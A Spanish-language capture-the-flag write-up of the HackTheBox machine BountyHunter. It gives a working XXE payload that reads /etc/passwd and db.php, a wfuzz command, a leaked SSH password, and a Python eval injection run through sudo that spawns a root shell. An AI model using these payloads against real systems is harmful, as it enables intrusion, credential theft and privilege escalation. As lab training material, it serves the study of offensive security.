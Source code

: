 ```yaml
---
title: HackTheBox - BountyHunter
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'XXE', 'Python Exploitation']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/BountyHunter/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: BountyHunter Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **XXE, Python Exploitation**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina BountyHunter**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Machines/BountyHunter/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/Machines/BountyHunter/02-versions.png)

c. Visitamos el sitio web en busca de más información. En la sección de **Portal** encontramos una sistema de reportes en fase beta

![](/assets/images/Machines/BountyHunter/03-web.png)

* Al enviar un 'reporte' la información será reflejada en la página web

    ![](/assets/images/Machines/BountyHunter/04-web.png)

d. Analizamos como se tramita esta información con **Burp Suite**

![](/assets/images/Machines/BountyHunter/05-burp.png)

* La información se envía en **base64** y luego se la **urlencodea** 

    ![](/assets/images/Machines/BountyHunter/06-xml.png)

    > Información en **formato xml** enviada.

e. Probaremos un **XXE** con el fin de leer archivos del servidor

> Definimos una **entidad externa** la cual nos permitirá leer el fichero **/etc/passwd** en base64 (Para evitar problemas de representación).
{: .prompt-tip }

* Referenciamos la entidad en el campo **title** (En este campo veremos la información solicitada)

    ```xml
    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
    ```

* Decodeamos la información devuelta y podremos ver el fichero **`/etc/passwd`**

    ```bash
    > echo -n 'cm9vdDp4OjA[DATA BASE64]' | base64 -d | grep -E 'bash$'

    root:x:0:0:root:/root:/bin/bash
    development:x:1000:1000:Development:/home/development:/bin/bash
    ```

f. En este caso, no podremos leer la clave privada id_rsa del usuario **development**. Si nos fijamos, la página web admite **php** por lo que para buscar información útil lo que podemos hacer es fuzzear por este tipo de archivos

```bash
> wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://<IP BountyHunter>/FUZZ.php

<SNIP>
000000834:   200        0 L      0 W        0 Ch        "db"
```

* Vemos que existen un fichero **db.php**, pero, tiene 0 caracteres. Eso no significa que esté vacío, el código php es interpretado, por lo que no se lo ve, pero si lo llegamos a leer a través del XXE llegaremos a ver la información que este contiene.

    ![](/assets/images/Machines/BountyHunter/07-db.png)

* Obtenemos una contraseña, la cual es válida para el usuario **development** en el servicio SSH

    ```bash
    sshpass -p 'm19RoAU0hP41A1sTsq6K' ssh development@<IP BountyHunter>
    development@bountyhunter:~$
    ```

### Escalada de Privilegios 💹

a. Analizamos nuestros privilegios a nivel de sudoers.

```bash
development@bountyhunter:~$ sudo -l

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![](/assets/images/Machines/BountyHunter/08-code.png)

* Ejecución de comandos con **eval**: [Code Injection](https://vk9-sec.com/exploiting-python-eval-code-injection/)

* Archivo **`ticket.md`**

    ```md
    # Skytrain Inc
    ## Ticket to /tmp
    __Ticket Code:__
    **39+__import__('os').system('whoami')
    ```

    ![](/assets/images/Machines/BountyHunter/09-code.png)


b. Con lo anterior en mente, podemos spawnear una shell como root

```md
# Skytrain Inc
## Ticket to /tmp
__Ticket Code:__
**39+__import__('os').system('bash')
```

```bash
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
./ticket.md
Destination: /tmp
root@bountyhunter:/home/development#
```